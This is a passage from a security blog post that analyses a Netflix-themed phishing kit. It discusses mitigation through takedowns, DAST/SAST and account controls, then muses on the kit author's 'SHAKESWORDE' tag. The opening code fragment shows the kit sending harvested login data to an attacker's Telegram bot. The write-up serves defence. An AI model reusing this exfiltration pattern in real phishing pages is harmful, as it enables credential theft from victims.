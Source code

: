 ```js
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/3');
};

exports.login3 = (req, res) => {
	res.render('login3');
};

[...]

```
That is about the end of the story, after the attacker gets these messages, they win. 

## Mitigation

Phishing sites are disposable and can be stood up quickly. An orchestrated email campaign can direct thousands of visitors to a fraudulent site within a short time. Props to the folks over at [Netcraft](https://netcraft.com); they're on the ball with reporting these shady sites to domain owners.

Unfortunately, in the brief interval between the scam emails being sent, detection occurring, notification of the domain owner, and subsequent takedown - Some will fall for it. Delaying detection for as long as possible is key for these scams. We've showed just two of the ways it is done.  

For service providers like us, both DAST and SAST (Dynamic and Static Application Security Testing) are critical to identifying such scams before they even go live. While it is still very easy to create disposable GitHub accounts to distribute this code, most disposable accounts are obvious. Combining suspicious code detection with user traits helps us flag and triage malicious activity. 

In September, GitHub is turning on MFA by default. That will help. What about Telegram and Proton? Time to step up and take action against malicious disposable accounts on your platforms. 



## The mystery


When browsing the code, something stood out to me. The Telegram message header:
```
`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
```

What or who is `SHAKESWORDE`? Is it some kind of cool 1337 haxor name? 

<p align="center">
    <img src="https://media0.giphy.com/media/Q2W4hziDOyzu0/giphy.gif?cid=ecf05e470qrb82k3b4fvpxh5l7l3up9tyefvhfmm09cntn3u&ep=v1_gifs_search&rid=giphy.gif&ct=g"/>
</p>

So I googled it - 

<p align="center">
    <img src="/blog/img/scampage-blog/shakesworde.png" width="650px"></img>
</p>
